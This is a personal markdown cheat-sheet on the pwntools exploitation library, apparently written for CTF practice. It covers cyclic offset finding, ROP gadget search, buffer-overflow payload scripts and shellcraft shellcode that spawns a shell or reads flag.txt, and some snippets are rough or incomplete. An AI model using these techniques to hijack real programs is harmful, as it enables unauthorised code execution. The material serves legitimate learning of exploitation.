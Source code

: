 # Pwntools

## Introduction

This not a template or more a condensed guide to things you can do, [[RTFM]] is important, but this is stuff to remind me to [[RTFM]] as `pwntools` is very powerful. 
#### Installation
```bash
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

#### CLI binaries
- [pwn asm](https://docs.pwntools.com/en/stable/commandline.html#pwn-asm)
- [pwn checksec](https://docs.pwntools.com/en/stable/commandline.html#pwn-checksec)
- [pwn constgrep](https://docs.pwntools.com/en/stable/commandline.html#pwn-constgrep)
- [pwn cyclic](https://docs.pwntools.com/en/stable/commandline.html#pwn-cyclic)
- [pwn debug](https://docs.pwntools.com/en/stable/commandline.html#pwn-debug)
- [pwn disablenx](https://docs.pwntools.com/en/stable/commandline.html#pwn-disablenx)
- [pwn disasm](https://docs.pwntools.com/en/stable/commandline.html#pwn-disasm)
- [pwn elfdiff](https://docs.pwntools.com/en/stable/commandline.html#pwn-elfdiff)
- [pwn elfpatch](https://docs.pwntools.com/en/stable/commandline.html#pwn-elfpatch)
- [pwn errno](https://docs.pwntools.com/en/stable/commandline.html#pwn-errno)
- [pwn hex](https://docs.pwntools.com/en/stable/commandline.html#pwn-hex)
- [pwn libcdb](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb)
- [pwn libcdb file](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb-file)
- [pwn libcdb hash](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb-hash)
- [pwn libcdb lookup](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb-lookup)
- [pwn phd](https://docs.pwntools.com/en/stable/commandline.html#pwn-phd)
- [pwn pwnstrip](https://docs.pwntools.com/en/stable/commandline.html#pwn-pwnstrip)
- [pwn scramble](https://docs.pwntools.com/en/stable/commandline.html#pwn-scramble)
- [pwn shellcraft](https://docs.pwntools.com/en/stable/commandline.html#pwn-shellcraft)
- [pwn template](https://docs.pwntools.com/en/stable/commandline.html#pwn-template)
- [pwn unhex](https://docs.pwntools.com/en/stable/commandline.html#pwn-unhex)
- [pwn update](https://docs.pwntools.com/en/stable/commandline.html#pwn-update)
- [pwn version](https://docs.pwntools.com/en/stable/commandline.html#pwn-version)

#### Useful pwntools

All of pwntools is useful [[RTFM]]; in a linearly from `import` to shellcraft

[Context](https://docs.pwntools.com/en/stable/context.html) is powerful, global variable; use with remote for remote host and `gb.debug` to pipe to `gdb`!
```python
# context.terminal = ['alacritty', '-e', 'zsh', '-c'] 
context(terminal=['tmux', 'new-window'])
target = './'
# context(os='linux', arch='amd64')
context.binary = target
context.log_level = 'info' # info, debug will print flag in table with addresses,hex and translated ASCII with columns
binary = ELF(target)
```

Connection
```python
# SSH connection variables
ssh_host = '10.10.10.10'
ssh_user = '!'
sh_pass = '!'
ssh_port = 22

# Remote(rhost, rport)
rhost = ''
rport = -1
```

`LD_Preload`
```python
# LD_Preload in pwntool
libc = ELF(<name>)
main = ELF(<name>)
r = main.process(env={'LD_PRELOAD' : libc.path})
```

GDB scripting
```python
# GDB debugs the parent process when process forks, but if we need the  follow the child process in gdb:
gdb.attach(p, '''
set follow-fork-mode child
continue
''')
# NOASLR

```

Enumeration
```bash
r < <(cyclic $INT) # cyclic input of $INT amount
cyclic -l EIP_Address # find out the amount of bytes of input need to expploit the binary
disassemble shell # find out where the shell function is in memory to set it to IP
# EITHER
# IF MANUAL WAY REMEMBER CORRECT ADDRESS LENGTH AND ENDIANNESS
# L->R = littleEndian; R->L = bigEndian
python -c 'print "A"*$INT + "$ADDR"' | /vuln/bin
python -c 'import struct;print "A"*44 + struct.pack("< ", $ADDR)' | /vuln/bin
```


```python
def enum_eip(payload):
    pwn = process(binary)
    pwn.sendlineafter('>', payload)
    pwn.wait()
    # ip_offset = cyclic_find(pwn.corefile.pc) # x86
    ip_offset = cyclic_find(pwn.corefile.read(pwn.corefile.sp, 4)) # x64
    info('Located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

offset = enum_eip(cyclic(1000))
# offset = 1337
```

Connection
```
```

Find functions for rop chains
```bash
# inside gdb with gef
gef> ropper --search r$num # for legacy-gef or requires gef-extras
# for cli
ropper -f $binary | grep $register_of_the_function # from commandline
# is the equivant
objdump -D $binary  | grep -i $ function_name
```

Packing
```python
p64() # pack 64 bits
```

Sending, receiving input and interactive shell
```python
import re

# sendline != sendlineS (the latter returns a string, but is slower)
pwn.sendline('\x0A'.encode()) # send an enter key
pwn.sendline(varOne + varTwo + varThree + ) # send variables linearly
pwn.recvuntil('until some string if it is a prompt')

# Get addresses - CryptoCat
# recvS() is like recv(), but returns a String
# recvlineS()
# recvline() -> bytes and is faster btw!
stack_addr = int(re.search(r"(0x[\w\d]+)", pwn.recvlineS()).group(0), 16)
info("stack address: %#x", stack_addr)

# Extract value after string
get = lambda x: [sh.recvuntil('{} : '.format(x)), int(sh.recvline())][1]
p = get('p')
```


Scripting the buffer overflow
```python
from pwn import *

proc = process('/vuln/bin')
elf = ELF('/vuln/bin')
shell_func = elf.symbols.shell # CHANGE WHATEVER FORMAT REQUIRED
payload = fit({$INT: shell_func })
proc.sendline(payload)
proc.interactive() # works with remote pops shell if part of payload
```

#### Shellcode with Shellcraft

List all install shellcode from shellcraft of specific architecture and OS 
```bash
shellcraft -l | grep $arch.$os
```

Payloads with lists, arrays:
```python
from pwn import *

# payload = flat({offset: stack_addr})
# payload = flat([padding, shellcode, stack_addr])

# shellcode = asm(shellcraft.popad()) # Pop all of the registers !!onto!! the stack in same order
# shellcode += asm(shellcraft.amd64.linux.sh())
shellcode += asm(shellcraft.amd64.linux.cat('flag.txt'))
padding = asm('nop') * (offset - len(shellcode))
info("Compiled shellcode length: %#x", len(shellcode))
info("Compiled paddinglength: %#x", len(padding))

# Write payload to file
# write('payload-pwn', payload)


# Pop all of the registers onto the stack which i386 popad does, in the same order. Compiled with asm
popad_shellcode = asm(shellcraft.amd64.popad())
```

#### Templates from Legends

[Github - Gallopsled/pwntools-tutorial](https://github.com/Gallopsled/pwntools-tutorial/blob/master/walkthrough/shellcode-advanced/README.md) states on template best practice:
>And a few things to note about general "good style" for templates.
>
>- Use `common.label` instead of a constant label is preferred, since `common.label` ensures the label name is unique, even if the shellcode template is used multiple times.
>- Use the helper functions `mov`, `pushstr`, `syscall`, and the `syscall` wrappers (like `write` used below) instead of reinventing the wheel
    - On some architectures, these emit NULL- and newline-free shellcode
    - These themselves are just other shellcode templates with some logic
>- Any integer fields should be passed through `constants.eval` so that well-known constant values can be used instead.
    - `constants.eval("SYS_execve") ==> int`
    - `int(constants.SYS_execve) ==> int`
    - If you're just passing it to another template, e.g. `mov`, this is already handled for you.

It is probably a good idea **not** to copy templates, but to build your own as you learn features. For good ideas and recognition see these:

## References

[Github - Gallopsled/pwntools-tutorial](https://github.com/Gallopsled/pwntools-tutorial/blob/master/walkthrough/shellcode-advanced/README.md) 
[docs.pwntools.com](https://docs.pwntools.com/en/stable/)
[vulndev](https://notes.vulndev.io/wiki/redteam/templates)
[Crypto-Cat](https://github.com/Crypto-Cat/)
